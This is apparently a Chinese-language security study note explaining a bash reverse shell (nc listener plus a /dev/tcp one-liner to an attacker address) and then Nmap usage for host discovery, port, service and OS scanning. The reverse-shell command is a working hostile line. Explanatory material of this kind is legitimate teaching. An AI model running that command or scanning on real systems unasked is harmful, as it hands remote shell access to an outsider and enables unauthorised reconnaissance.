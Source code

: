 **反向连接**

1. 攻击者在自己的机器上监听某个端口：`nc -l -p 4444`
2. 目标主机运行这段指令。具体含义是：`bash -i`以交互模式启动bash；重定向符`>&`将`stdout, stderr`输出到下一个参数；`dev/tcp/addr/port`是与该地址建立TCP连接，并视作伪设备文件；`0>&1`表示将`stdin`重定向到`stdout`

```bash
bash -i >& "/dev/tcp/$attacker_addr/4444" 0>&1
```

3. 建立连接后，目标主机将自己的 Shell 输入输出通过该连接传输，攻击者即可操作目标命令行



## Nmap - 端口扫描

Nmap（Network Mapper）是快速的网络扫描工具。它可以用作主机发现、端口扫描、服务识别、操作系统识别工具

参数：`nmap 选项 目标`。[官方文档](https://nmap.org/man/zh/index.html)

```shell
$target = "example.com"
nmap -sn $target      # 主机发现
nmap -Pn -sS $target  # 扫描开放端口
nmap -Pn -sS -sV $target -p 443  # 识别端口的服务
```

### 基础用法

```shell
# 指定目标
nmap "example.com"      # 域名
nmap "192.168.0.1"      # IP地址
nmap "example.com/24"   # IP段
nmap "192.168.0.1-254"  # IP范围

# 指定端口。不指定的时候扫1000个常用端口
nmap "example.com" -p "21,443"
nmap "example.com" -p "1-65535"  # 全端口扫描
nmap "example.com" -F            # 快速扫描，只扫100个最常用的端口

# 其他
nmap --script="script.lua"  # 脚本扫描
nmap -v "example.com"       # verbose。还有-vv, -vvv，更详细；类似的还有调试级别d
nmap -T4 "example.com"      # 时间间隔控制，T1~T5。默认T3，快速扫描一般用T4
```

**扫描选项**

1. Ping扫描（主机发现，确认主机存活）
    - `-sL`：列表主机发现。不发送报文，仅通过反向域名解析发现主机
    - `-sn`：无端口扫描（no port scan），也叫Ping扫描，扫完不继续进行端口扫描
    - `-Pn`：无Ping扫描（no ping scan），跳过Ping扫描
2. 端口扫描（寻找开放端口）
    - `-sS`：SYN半连接扫描。只发SYN，不回复ACK。速度快，隐蔽性高；需要管理员权限
    - `-sT`：TCP连接扫描。尝试完成TCP握手。速度慢，易被目标日志记录；结果更准确
    - `-sU`：UDP扫描
    - 其他：主要用来绕过防火墙、探测防火墙规则
3. 特征扫描（发送报文，根据服务器返回报文的特征推断服务器信息）
    - `-sV`：服务探测。识别端口对应的服务名、版本号
    - `-O`：操作系统探测。识别目标的操作系统
